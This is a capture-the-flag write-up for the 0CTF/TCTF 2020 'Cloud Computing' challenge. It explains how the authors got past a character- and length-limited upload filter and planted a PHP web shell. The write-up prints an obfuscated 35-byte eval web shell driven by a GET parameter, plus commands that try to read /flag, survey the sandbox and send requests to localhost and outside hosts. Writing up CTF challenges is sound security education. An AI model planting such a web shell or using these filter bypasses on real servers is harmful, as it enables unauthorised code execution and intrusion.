 The system creates an independent sandbox for each IP + User-Agent pair. It is possible to upload a script (`action=="upload"`), and then execute it (`action=="shell"`). The task is to upload a web shell, and get flag through it.

The issue is that there is some sort of “WAF” (web application firewall) implemented, and if you try to upload arbitrary web shell, it is denied with an error `waf sucks...`

Through [little research](https://github.com/oioki/0ctf-tctf-2020/blob/master/misc/cloud-computing/waf_restrictions.py), we learn the restrictions of WAF:

- no more than 35 bytes in payload;
- allowed characters: `[a-z0-9]` some special characters `"$()/;<=>?[\]{}~`

By no means it was easy, but after some time and efforts we managed to bypass this filter. The shell is:

```php
<?;eval(${"\x5f\x47\x45\x54"}[0]);
```

It accepts the command from `0` GET parameter. We wrote a couple of helper scripts — one to [deploy](https://github.com/oioki/0ctf-tctf-2020/blob/master/misc/cloud-computing/deploy.py) the shell; another to [execute](https://github.com/oioki/0ctf-tctf-2020/blob/master/misc/cloud-computing/shell.py) commands in a more convenient way.

Now the goal is to get flag itself somehow, but it’s quite tricky, since the environment is quite restrictive, including `open_basedir`:

```sh
$ ./shell.py 'file_get_contents("/flag");'
<br />
<b>Warning</b>:  file_get_contents(): open_basedir restriction in effect. File(/flag) is not within the allowed path(s): (/var/www/html/sandbox/d026ece6aebbb6f817f11db1c56958b7a9ba5a03/
```

Some reconnaissance:

```sh
$ ./shell.py 'var_dump(scandir(__DIR__));'
array(3) {
  [0]=>
  string(1) "."
  [1]=>
  string(2) ".."
  [2]=>
  string(9) "index.php"
}

$ ./shell.py 'echo file_get_contents("http://checkip.amazonaws.com/");'
111.186.56.155
```

This one will come handy in the second part of the challenge (Cloud Computing 2):

```sh
$ ./shell.py 'echo file_get_contents("http://localhost");'
SuperSafeCloudAgent v1.0
```
